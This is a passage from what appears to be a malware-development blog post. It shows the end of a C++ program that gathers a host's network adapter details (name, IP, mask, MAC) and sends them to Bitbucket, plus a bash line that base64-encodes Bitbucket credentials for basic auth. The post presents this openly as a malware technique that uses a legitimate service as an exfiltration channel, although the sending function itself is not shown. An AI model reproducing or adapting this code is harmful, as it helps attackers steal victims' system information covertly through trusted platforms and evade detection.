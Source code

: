 ```cpp
    "MAC Address: %02X-%02X-%02X-%02X-%02X-%02X", 
    adapter->AdapterName,
    adapter->IpAddressList.IpAddress.String,
    adapter->IpAddressList.IpMask.String,
    adapter->Address[0], adapter->Address[1], adapter->Address[2],
    adapter->Address[3], adapter->Address[4], adapter->Address[5]);
  }
 
  int result = sendToBitbucket(systemInfo);
 
  if (result == 0) {
    printf("hook successfully created in Bitbucket.\n");
  } else {
    printf("failed to create hook in Bitbucket.\n");
  }
 
  return 0;
}
```

As you can see, first of all, for basic auth you need to convert credentials to base64:    

```bash
echo -n 'cocomelonkz@gmail.com:<BITBUCKET_API_TOKEN>' | base64
```

![malware](/assets/images/175/2025-08-29_00-52.png){:class="img-responsive"}    

### demo

Let's go to see this in action. For checking correctness, I made several requests using `curl`:    

![malware](/assets/images/175/2025-08-29_01-09.png){:class="img-responsive"}    